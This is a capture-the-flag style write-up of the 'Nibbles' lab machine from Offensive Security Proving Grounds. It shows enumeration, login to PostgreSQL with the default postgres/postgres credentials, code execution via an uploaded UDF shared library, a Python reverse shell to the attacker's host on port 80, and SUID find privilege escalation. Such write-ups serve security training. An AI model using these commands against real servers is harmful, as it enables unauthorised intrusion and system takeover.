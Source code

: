 ```yaml
---
description: Writeup for Nibbles from Offensive Security Proving Grounds (PG)
---
```


# Nibbles

## Nibbles

### Service Enumeration

`nmapAutomator.sh -H 192.168.163.47 -t full`

![](../../.gitbook/assets/1540aa15138b4fb6b87da0c16f81a23b.png)

`nmapAutomator.sh -H 192.168.163.47 -t vulns`

* Anonymous FTP not allowed

### Subdirectory Enumeration

`gobuster dir -u http://192.168.163.47/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -k -x .txt,.html --threads 50`

### PostgreSQL

We know the default username is `postgres`. Trying the password `postgres`, we authenticate successfully.

![](../../.gitbook/assets/e98a3452c71040f3891fcbbd9718e443.png)

Note that we are a privileged account, with the Superuser role.

![](../../.gitbook/assets/9de57a70204a45eb823cb8ddb8e8d026.png)

## Exploitation

Reference: [https://afinepl.medium.com/postgresql-code-execution-udf-revisited-3b08412f47c1](https://afinepl.medium.com/postgresql-code-execution-udf-revisited-3b08412f47c1)

Compile the shared library:

`gcc lib_postgresqlugcc lib_postgresqludf_sys.c -I server -fPIC -shared -o udf64.so`

Generate the `.psql` payload:

```text
xxd -p udf64.so | tee udf.txt
x=0
while read line; do echo "select lo_put(PLACEHOLDER, $x, '\\\x$line');" >> u.psql; x=$((x+30)); done < udf.txt
```

Create and get the ID of the object:

![](../../.gitbook/assets/f221361282f64e6b9013b8836cd55bd5.png)

Replace PLACEHOLDER in `u.psql` with 16385.

![](../../.gitbook/assets/b47d67741d444352b2a7222c58f43ad0.png)

Deliver the payload: `psql -h 192.168.163.47 -p 5437 -U postgres -d postgres -f u.psql`

`select lo_export(16385, '/tmp/exploit.so');`

![](../../.gitbook/assets/d6134a3d60044c4196eeebec2e0b8166.png)

`create or replace function exec(char) returns char as '/tmp/exploit.so','sys_eval' language c strict;`

![](../../.gitbook/assets/99232dceadc64149a730060ed5230aff.png)

At this point we have created a function that allows us to execute arbitrary commands.

Verify Python is installed: `select exec('which python');`

![](../../.gitbook/assets/ace8f49532204b00bbfdf6bcf49d9d09.png)

**Note: the only port that works is port 80.** Since the web application would be communicating with the PostgreSQL service through port 80, port 80 is likely whitelisted.

```text
select exec('python -c ''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.163",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")''');
```

![](../../.gitbook/assets/4d1ba1f89f5a4ae38d82aa3c092c4b71.png)

![](../../.gitbook/assets/73d3433cdccf4cceb8609fda74080f53.png)

### Privilege Escalation

We can use LinPEAS to enumerate.

![](../../.gitbook/assets/014387c27ed84d63ad418bed672c6845.png)

We see that the `find` binary has the SUID bit set.

Reference: [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

We can leverage this to run `/bin/sh` with elevated privileges.

![](../../.gitbook/assets/7d5d16d938ef42eba9a1676b91079876.png)

![](../../.gitbook/assets/84c7b92b17e04ffb8e525f5f81066c77.png)

